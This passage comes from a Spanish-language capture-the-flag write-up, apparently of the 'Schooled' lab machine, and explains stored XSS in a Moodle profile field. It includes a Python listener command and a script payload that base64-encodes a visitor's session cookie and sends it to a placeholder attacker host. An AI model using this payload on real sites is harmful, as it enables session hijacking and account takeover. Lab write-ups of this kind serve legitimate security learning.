 ![XSSTest](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/XSSTest.PNG)

Perfecto!
### Exploiting XSS Vulnerabilities for Session Cookie Stealing
Teniendo en cuenta que el profesor estara revisando los perfiles de los estudiantes inscritos al curso, podemos **intentar robar su cookie de sesion** mediante un script malicioso inyectado en el campo ```"MoodleNet profile"```.

Para esto, utilizaremos el siguiente comando para establecer un servidor web simple por el puerto 80 de nuestra maquina
```python
python3 -m http.server 80
```
![python3sever](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/python3sever.PNG)

Ahora inyectaremos en el campo ```"MoodleNet profile"``` el siguiente payload que se encargara de robar la cookie de sesión del usuario que ingrese a nuestro perfil de Moodle 

```sh
<script>var i=new Image(); i.src="http://[OurIP]/?cookie="+btoa(document.cookie);</script>
```

![cookie](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/cookie.PNG)

